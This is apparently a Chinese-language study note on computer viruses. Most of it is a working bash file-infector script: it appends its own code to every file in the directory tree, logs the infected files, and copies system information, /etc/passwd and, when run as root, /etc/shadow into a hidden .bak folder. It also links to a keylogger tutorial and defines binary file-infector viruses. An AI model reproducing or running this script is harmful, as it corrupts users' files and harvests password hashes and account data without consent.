附：现shell脚本：https://www.runoob.com/linux/linux-shell.html

> 注意变量赋值之间没有空格，踩坑踩了很久才发现
>
> 


 实现了感染目录下将自身复制到每个文件里，并记录感染文件至`.bak/filelist_log`

并获取信息到`.bak/info`目录下

```sh
#!/bin/bash
#MagicFuck

whoami="$(whoami)"
path="$(pwd)"
file_list=$(ls $path)
echo -e "$whoami in $path fucking your file\n"
touch /tmp/v_tmp
tmp='/tmp/v_tmp'
cat "$path/$0" > $tmp

# backup
mkdir .bak
cp -r * .bak
mkdir $path/.bak/info
touch $path/.bak/info/filelist_log

cat /proc/meminfo >> $path/.bak/info/meminfo
cat /proc/cpuinfo >> $path/.bak/info/cpuinfo
cat /etc/hostname >> $path/.bak/info/hostname
cat /etc/passwd >> $path/.bak/info/passwd
if test $whoami = 'root';
then
	touch $path/.bak/info/shadow
	cat /etc/shadow >> $path/.bak/info/shadow
fi


function fuckfile(){
	file_list=$(ls $pwd)
	echo $(ls $pwd) >> $path/.bak/filelist_log
	for file_ in $(ls $pwd); do
		# echo $file_
		if test -d $file_
			then
				echo "$file_ is dir"
				if $(cat $file_ |grep -q ".bak")
				then
					echo "It's Magic bak"
				else
					cd ./$file_
					fuckfile
					cd ..
				fi
			else
				if $(cat $file_ |grep -q "MagicFuck")
				then
					echo "It has Magic"
				else 
					cat $tmp >> $file_
			fi
		fi
	done
}

fuckfile
rm $tmp

```


通过劫持hook实现键盘记录器：https://blog.csdn.net/simon798/article/details/98848050


### 二进制文件病毒：binary file virus 

### 

该病毒以寄生方式挂接到二进制可执行文件（不管该文件能否直接执行）。二进制可执行文件包含可由 CPU 直接解释的二进制指令。这些类型的病毒通常称为文件感染型病毒。